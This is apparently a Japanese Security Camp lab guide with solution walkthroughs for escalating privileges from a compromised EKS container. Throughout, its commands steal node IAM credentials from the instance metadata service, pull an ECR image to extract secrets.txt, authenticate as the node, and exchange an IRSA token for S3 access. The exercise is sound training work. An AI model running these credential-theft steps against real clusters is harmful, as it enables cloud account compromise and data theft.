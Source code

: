 # EKS Privilege Escalation

## 必要なもの

- [kubectl](https://kubernetes.io/ja/docs/tasks/tools/install-kubectl/)
- [AWS CLI](https://docs.aws.amazon.com/ja_jp/cli/latest/userguide/getting-started-install.html)

共有した AWS クレデンシャルを設定しておいてください。

```shell
$ cat ~/.aws/credentials
[default]
aws_access_key_id = ASIA…
aws_secret_access_key = …
aws_region = ap-northeast-1
```

次のコマンドで EKS への接続設定をして、`kubectl get pods` が成功すれば OK です。

```shell
$ aws eks update-kubeconfig --name sandbox-seccamp --region ap-northeast-1
Added new context arn:aws:eks:ap-northeast-1:...:cluster/sandbox-seccamp to /root/.kube/config

$ kubectl get pods
No resources found in default namespace.
```

## この演習で必要なコマンドの使い方 Tips
<details><summary>📗 開く</summary>

### 侵害したと仮定した worker コンテナに入る

```shell
kubectl -n default exec -it worker bash
```

### IMDS へアクセスする

コンテナの中から次のコマンドを実行する

```shell
TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"`
curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/meta-data/
curl -w "\n" -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

### IMDS から取得したクレデンシャルを使って AWS の API を実行する

```shell
$ export AWS_ACCESS_KEY_ID=ASIA... # AccessKeyId の値をセットする
$ export AWS_SECRET_ACCESS_KEY=... # SecretAccessKey の値をセットする
$ export AWS_SESSION_TOKEN=... # Token の値をセットする

# このコマンドが成功すれば認証成功
# ref. https://docs.aws.amazon.com/cli/latest/reference/sts/get-caller-identity.html
$ aws sts get-caller-identity
{
    "UserId": "...",
    "Account": "...",
    "Arn": "..."
}
```

### コンテナに設定されている環境変数を取得する

コンテナの中で次のコマンドを実行

```shell
env
```

### IRSA で ServiceAccount に紐づいたアクセストークンを取得する

```shell
cat /var/run/secrets/eks.amazonaws.com/serviceaccount/token
```

### AssumeRoleWithWebIdentity API を呼び出す

```shell
aws sts assume-role-with-web-identity \
  --web-identity-token $(cat /var/run/secrets/eks.amaznaws.com/serviceaccount/token) \
  --role-arn $AWS_ROLE_ARN \
  --role-session-name attacker
```

</details>

## 1. IMDS を利用して ECR リポジトリからイメージを取得

🎯 目的: 侵害したコンテナから Node にアタッチされた IAM Role の権限で ECR リポジトリからイメージを取得する
🚩 追加課題: イメージ内にある secrets.txt を取得しよう

<details><summary>解説</summary>

### 1. IMDS からクレデンシャルを取得する

```shell
# ここに書いているコマンドは worker コンテナの中で実行してします

$ TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"`
$ curl -w "\n" -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/security-credentials/
security-credentials/eksctl-sandbox-seccamp-nodegroup-NodeInstanceRole-...

# 上記パスにアクセスしてクレデンシャルを取得
$ curl -w "\n" -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/security-credentials/security-credentials/eksctl-sandbox-seccamp-nodegroup-NodeInstanceRole-...

  "Code" : "Success",
  "LastUpdated" : "2023-08-06T09:53:06Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "ASIA...",
  "SecretAccessKey" : "htj...",
  "Token" : "IQo...",
  "Expiration" : "2023-08-06T16:28:13Z"
}
```

### 2. ECR の情報を取得

```shell
# 必要なクレデンシャルを手に入れたので、ここからは手元の端末から実行しています
$ export AWS_ACCESS_KEY_ID=ASIA...
$ export AWS_SECRET_ACCESS_KEY=htj...
$ export AWS_SESSION_TOKEN=IQo...
$ export AWS_REGION=ap-northeast-1

# Arn が eksctl-sandbox-seccamp-nodegroup-NodeInstanceRole-... になっていれば OK
$ aws sts get-caller-identity
{
    "UserId": "AROA...:i-0a67e16c913236a0e",
    "Account": "...",
    "Arn": "arn:aws:sts::...:assumed-role/eksctl-sandbox-seccamp-nodegroup-NodeInstanceRole-..."
}

$ aws ecr describe-repositories
{
    "repositories": [
        {
            "repositoryArn": "arn:aws:ecr:ap-northeast-1:761166754261:repository/seccamp",
            "registryId": "761166754261",
            "repositoryName": "seccamp",
            "repositoryUri": "761166754261.dkr.ecr.ap-northeast-1.amazonaws.com/seccamp",
            "createdAt": "2023-08-05T08:10:51+00:00",
            "imageTagMutability": "MUTABLE",
            "imageScanningConfiguration": {
                "scanOnPush": false
            },
            "encryptionConfiguration": {
                "encryptionType": "AES256"
            }
        }
    ]
}

$ aws ecr list-images --repository-name seccamp
{
    "imageIds": [
        {
            "imageDigest": "sha256:1327ab6e9394e6854f22f4101fd11402ca9c4cc53c50d6c9bed0ce3a0f4d69b6",
            "imageTag": "latest"
        }
    ]
}
```

### 3. ECR からイメージを取得


```shell
$ aws ecr get-login-password --region ap-northeast-1 | docker login --username AWS --password-stdin 761166754261.dkr.ecr.ap-northeast-1.amazonaws.com
Login Succeeded

Logging in with your password grants your terminal complete access to your account.
For better security, log in with a limited-privilege personal access token. Learn more at https://docs.docker.com/go/access-tokens/

$ docker pull 761166754261.dkr.ecr.ap-northeast-1.amazonaws.com/seccamp:latest
```

### 4. 追加課題: secrets.txt を取得する

```shell
$ mkdir tmp && cd tmp
$ docker save 761166754261.dkr.ecr.ap-northeast-1.amazonaws.com/seccamp:latest -o seccamp.tar.gz
$ find . | grep layer.tar
383fd6c5e54eb4819bebd4603fa6b34052405037469bfeda873d01740505be74/layer.tar
3c32de9ccf25116a28648226e2804220fbb8e24e2a4ddf23e2f79c982c2034e8/layer.tar
de8b86e33ae69ac28a5379fc79eccc42f37c41395732b90ae47075d4c2efcee1/layer.tar

$ cd 383fd6c5e54eb4819bebd4603fa6b34052405037469bfeda873d01740505be74/
$ tar xzf layer.tar
$ ls etc/
secrets.txt
```


</details>

## 2. Node として認証する

🎯 目的: 侵害したコンテナから Node にアタッチされた IAM Role の権限で Node として認証する
🚩 追加課題: どういった横展開ができるか調べよう

<details><summary>解説</summary>

### 1. IMDS からクレデンシャルを取得する

これは 1 と同じ

### 2. EKS アクセスの設定をする

```
# 手元のクレデンシャルをコリジョンしてしまうのを防ぎたいのでコンテナを使う
$ docker run --rm -it --entrypoint bash amazon/aws-cli
# コンテナの中で実行
$ export AWS_ACCESS_KEY_ID=ASIA...
$ export AWS_SECRET_ACCESS_KEY=htj...
$ export AWS_SESSION_TOKEN=IQo...
$ export AWS_REGION=ap-northeast-1

# kubectl をインストール
$ curl -LO "https://dl.k8s.io/release/$(curl -LS https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
$ chmod +x kubectl
$ mv ./kubectl /usr/local/bin

# クラスタ名は aws ec2 describe-instances の結果から、インスタンスのタグに入っている。割愛。
$ aws eks update-kubeconfig --name sandbox-seccamp
Added new context arn:aws:eks:ap-northeast-1:...:cluster/sandbox-seccamp to /root/.kube/config

$ kubectl get pods --all-namespaces
NAMESPACE     NAME                              READY   STATUS    RESTARTS   AGE
kube-system   aws-node-jql4z                    1/1     Running   0          47m
kube-system   coredns-8496bbc677-8jr6m          1/1     Running   0          54m
kube-system   coredns-8496bbc677-nx524          1/1     Running   0          54m
kube-system   kube-proxy-gmz2p                  1/1     Running   0          47m
kube-system   metrics-server-5d875656f5-d6rsn   1/1     Running   0          40m
...
```

</details>

## 3. IRSA を利用して S3 へアクセスしよう

🎯 目的: 侵害したコンテナから IRSA を利用して S3 にアクセスし、secrets.txt を取得しよう

<details><summary>解説</summary>

### 1. JWT を取得する

環境変数 `AWS_ROLE_ARN` の値と `AWS_WEB_IDENTITY_TOKEN_FILE` のファイルの値(JWT)をメモしておきます。

```shell
# このコマンドは worker コンテナ内で実行しています

$ env | grep AWS_
AWS_DEFAULT_REGION=ap-northeast-1
AWS_REGION=ap-northeast-1
AWS_ROLE_ARN=arn:aws:iam::...:role/eksctl-sandbox-seccamp-addon-iamserviceaccou-Role1-...
AWS_WEB_IDENTITY_TOKEN_FILE=/var/run/secrets/eks.amazonaws.com/serviceaccount/token
AWS_STS_REGIONAL_ENDPOINTS=regional

$ cat $AWS_WEB_IDENTITY_TOKEN_FILE
eyJhbGciO...
```

### 2. `AssumeRoleWithWebIdentity` を呼び出してクレデンシャルを取得

```shell
# 必要なクレデンシャルを手に入れたので、ここからは手元の端末から実行しています
# まっさらな環境で実行できることを確認するためにコンテナを使います
$ docker run --rm -it --entrypoint bash amazon/aws-cli
$ export JWT=(1で取得したJWT)
$ export AWS_ROLE_ARN=(1で取得した AWS_ROLE_ARN の値)
$ aws sts assume-role-with-web-identity \
  --web-identity-token $JWT \
  --role-arn $AWS_ROLE_ARN \
  --role-session-name attacker
{
    "Credentials": {
        "AccessKeyId": "ASIA...",
        "SecretAccessKey": "W+/sl7...",
        "SessionToken": "Fw..."
        ...
    }
}
```

### 3. 取得したクレデンシャルを使って S3 の情報を取得

```shell
$ export AWS_ACCESS_KEY_ID=ASIA... # AccessKeyId の値をセットする
$ export AWS_SECRET_ACCESS_KEY=... # SecretAccessKey の値をセットする
$ export AWS_SESSION_TOKEN=... # SessionToken の値をセットする
$ export AWS_REGION=ap-northeast-1

$ aws s3 ls
2023-08-06 09:26:19 seccamp-2023-hidden
$ aws s3 ls seccamp-2023-hidden
2023-08-06 09:27:27         38 hidden.txt
$ aws s3 cp s3://seccamp-2023-hidden/hidden.txt .
download: s3://seccamp-2023-hidden/hidden.txt to ./hidden.txt
$ ls
hidden.txt
```

</details>

